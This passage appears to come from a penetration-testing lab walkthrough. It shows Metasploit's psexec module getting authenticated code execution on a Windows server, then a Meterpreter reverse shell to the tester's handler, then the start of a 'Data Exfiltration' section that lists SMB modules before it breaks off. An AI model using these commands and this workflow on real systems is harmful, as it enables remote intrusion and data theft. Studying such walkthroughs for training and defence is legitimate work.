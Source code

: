 ```bash
msf6 exploit(windows/smb/psexec) > run

[-] Handler failed to bind to 10.4.72.115:4444:-  -
[-] Handler failed to bind to 0.0.0.0:4444:-  -
[*] 10.10.109.254:445 - Connecting to the server...
[*] 10.10.109.254:445 - Authenticating to 10.10.109.254:445 as user 'ballen'...
[*] 10.10.109.254:445 - Selecting PowerShell target
[*] 10.10.109.254:445 - Executing the payload...
[+] 10.10.109.254:445 - Service start timed out, OK if running a command or non-service executable...
[*] Exploit completed, but no session was created.
```

On the handler side we can see the following:

```bash
[*] Started reverse TCP handler on 10.4.72.115:4444 
[*] Sending stage (176198 bytes) to 10.10.109.254
[*] Meterpreter session 3 opened (10.4.72.115:4444 -> 10.10.109.254:60234) at 2024-04-09 10:14:53 +1000

meterpreter > sysinfo
Computer        : ACME-TEST
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : FLASH
Logged On Users : 8
Meterpreter     : x86/windows
```

Now we have successfully created a connection to the target machine. We can start traversing directories and exfiltrating data now.

## Data Exfiltration

### SMB Shares

We can now enumerate available SMB shares and get information about them. To do this we can search for a module that enables us to enumerates smb shares. This can be found by typing `search smb share` in msfconsole. To move from the meterpreter back to msfconsole we can background the session by typing `bg`.

```bash
meterpreter > bg
[*] Backgrounding session 2...
msf6 exploit(multi/handler) > search smb share

Matching Modules
================

   #   Name                                                            Disclosure Date  Rank       Check  Description
   -   ----                                                            ---------------  ----       -----  -----------
   0   exploit/osx/browser/safari_file_policy                          2011-10-12       normal     No     Apple Safari file:// Arbitrary Code Execution
   1   auxiliary/server/capture/smb                                                     normal     No     Authentication Capture: SMB
   2   post/linux/busybox/smb_share_root                                                normal     No     BusyBox SMB Sharing
   3   exploit/windows/scada/ge_proficy_cimplicity_gefebt              2014-01-23       excellent  Yes    GE Proficy CIMPLICITY gefebt.exe Remote Code Execution
   4   exploit/windows/smb/generic_smb_dll_injection                   2015-03-04       manual     No     Generic DLL Injection From Shared 
```